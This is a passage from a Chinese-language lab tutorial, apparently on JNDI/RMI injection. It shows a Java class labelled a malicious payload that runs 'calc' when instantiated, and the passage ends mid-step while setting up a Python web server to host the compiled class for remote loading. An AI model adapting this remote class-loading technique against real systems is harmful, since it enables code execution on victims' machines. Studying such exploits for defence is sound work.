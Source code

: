    
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5NGOiaY7j9FpDiaQXmyIHxZibuALPtfctZdVibemEe8sHWYAt8yVMZntLTkA/640?wx_fmt=png "")  
  
   
  
   
  
3、HTTP 端恶意载荷（Calculator.java）代码，跟rmi的恶意载荷一样  
  
public  
  
class  
  
Calculator  
 {            
  
      
public  
  
Calculator  
()  
  
throws  
  
Exception  
 {            
  
          
Runtime  
.  
getRuntime  
().  
exec  
(  
"calc"  
);  
  
      
}            
  
}  
  
   
  
   
  
   
#### 2、启动环境  
  
1、将 HTTP 端恶意载荷 Calculator.java，编译成 Calculator.class 文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5NmqOdvdww2t6DMUb0MEZd1eichJ3icQ6BBI4Uczzgq6siaM6NlkRBTogYw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5NM9HTsJr0CAdmvgYPv7VKBdwu96FJbYDnjNIibhVl0S4NBQGqJjoczLA/640?wx_fmt=png "")  
  
   
  
   
  
2、在 Calculator.class 目录下利用 Python 起一个临时的 WEB 服务放置恶意载荷,这里的端口必须要与 RMIServer.java 的 Reference 里面的链接端口一致  
  
python  
  